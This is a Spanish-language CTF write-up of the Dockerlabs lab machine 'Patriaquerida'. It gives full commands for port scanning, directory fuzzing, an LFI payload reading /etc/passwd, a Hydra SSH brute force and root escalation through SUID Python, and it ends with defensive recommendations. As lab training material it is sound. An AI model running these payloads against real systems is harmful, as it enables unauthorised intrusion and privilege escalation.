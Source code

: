 # 🛡️ Informe de Pentesting – Máquina: Patriaquerida

## 🌟 Objetivo

Realizar un análisis de seguridad completo sobre la máquina virtual **Patriaquerida**, identificando vulnerabilidades, explotándolas para obtener acceso no autorizado y escalando privilegios hasta obtener el control total del sistema (root).

---

## ⚙️ 1. Despliegue de la Máquina

* Se descargó el archivo `Patriaquerida.zip` desde la página de Dockerlabs.
* Se descomprimió usando:

  ```bash
  unzip Patriaquerida.zip
  ```
* Se desplegó con el script:

  ```bash
  sudo bash auto_deploy.sh Patriaquerida.zip
  ```

![Inicio](/Patriaquerida/Imagenes/Inicio.jpeg)

---

## 🌐 2. Verificación de Conectividad

Se verificó que la máquina estaba activa mediante:

```bash
ping -c4 172.17.0.2
```

![Ping](/Patriaquerida/Imagenes/Ping.jpeg)

---

## 🔍 3. Escaneo de Puertos

Se realizó un escaneo completo de puertos con Nmap:

```bash
sudo nmap -p- -oopen -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

Se encontraron abiertos los puertos **22 (SSH)** y **80 (HTTP)**.

![Puertos](/Patriaquerida/Imagenes/Puertos.jpeg)

Escaneo más profundo:

```bash
extractPorts allPorts.txt
nmap -sC -sV -p 22,80 172.17.0.2 -oN target.txt
```

![Servicios](/Patriaquerida/Imagenes/Servicios.jpeg)

---

## 🔎 4. Análisis del Sitio Web

La página web mostraba el contenido por defecto del servidor Apache.

![Pagina](/Patriaquerida/Imagenes/Pagina.jpeg)

---

## 🪓 5. Fuzzing de Directorios

Se utilizó Gobuster para encontrar recursos ocultos:

```bash
gobuster dir -u http://172.17.0.2 \
  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -t 20 -add-slash -b 403,404 -x php,html,txt
```

Se encontró `index.php` y desde ahí un archivo oculto `.hidden_pass`.

![Gobuster](/Patriaquerida/Imagenes/Gubuster.jpeg)
![PHP](/Patriaquerida/Imagenes/php.jpeg)

---

## 🔑 6. Obtención de Contraseña

Al acceder a `http://172.17.0.2/.hidden_pass`, se reveló la contraseña `balu`.

![Contraseña](/Patriaquerida/Imagenes/Contraseña.jpeg)

---

## 🛠️ 7. Escaneo con Nikto

Se ejecutó Nikto:

```bash
nikto -h http://172.17.0.2/index.php
```

Se detectó posible vulnerabilidad de **LFI (Local File Inclusion)**.

![Nikto](/Patriaquerida/Imagenes/nikto.jpeg)

---

## 🪛 8. Explotación de LFI

Se utilizó LFI para leer el archivo `/etc/passwd`:

```
http://172.17.0.2/index.php?page=../../../../etc/passwd
```

Esto reveló usuarios del sistema como `pinguino`, `mario` y `root`.

![Informacion](/Patriaquerida/Imagenes/Informacion.jpeg)

---

## 🔓 9. Fuerza Bruta con Hydra

Se crearon dos archivos:

* `usuarios.txt` con nombres de usuario.
* `contraseña.txt` con `balu`.

Ataque con Hydra:

```bash
hydra -L usuarios.txt -P contraseña.txt ssh://172.17.0.2 -t 50
```

Se accedió exitosamente como `pinguino : balu`.

![Hydra](/Patriaquerida/Imagenes/Hydra.jpeg)

---

## 🐧 10. Acceso SSH

Ingreso a la máquina como usuario pinguino:

```bash
ssh pinguino@172.17.0.2
```

![SSH](/Patriaquerida/Imagenes/SSH.jpeg)

---

## 🚀 11. Escalada de Privilegios

### 🔧 1. Búsqueda de archivos SUID

```bash
find / -perm -4000 2>/dev/null
```

Se encontró:

```
/usr/bin/python3.8
```

El bit SUID indica que el archivo se ejecuta con permisos del propietario (root). Verificación:

```bash
ls -l /usr/bin/python3.8
```

Salida:

```
-rwsr-xr-x 1 root root ... /usr/bin/python3.8
```

### 🎡 2. Escalada con Python

Ejecutamos:

```bash
python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

#### Explicación del código:

* `import os`: importa el módulo del sistema.
* `os.setuid(0)`: cambia el ID del usuario al UID 0 (root).
* `os.system("/bin/bash")`: abre una shell bash.

### 🚫 Riesgo

Permitir que binarios como Python tengan SUID es críticamente peligroso. Un atacante puede ejecutar comandos arbitrarios como root.

### ✅ Confirmación

Comprobación:

```bash
whoami
```

Resultado:

```
root
```

![Escalada](/Patriaquerida/Imagenes/Escalada.jpeg)

---

## ✅ Conclusiones Finales

| Etapa      | Descripción                                               |
| ---------- | --------------------------------------------------------- |
| **Fase 1** | Enumeración de puertos y servicios (Nmap)                 |
| **Fase 2** | Descubrimiento de archivos ocultos y vulnerabilidades web |
| **Fase 3** | Obtención de credenciales válidas (Hydra)                 |
| **Fase 4** | Acceso remoto con SSH                                     |
| **Fase 5** | Escalada de privilegios explotando SUID en Python         |

---

## 🤖 Recomendaciones

* Eliminar archivos con información sensible como `.hidden_pass`.
* Desactivar permisos SUID en binarios como Python.
* Filtrar entradas del usuario para evitar LFI.
* Monitorear intentos de acceso SSH.
* Usar contraseñas seguras y diferentes para cada usuario.

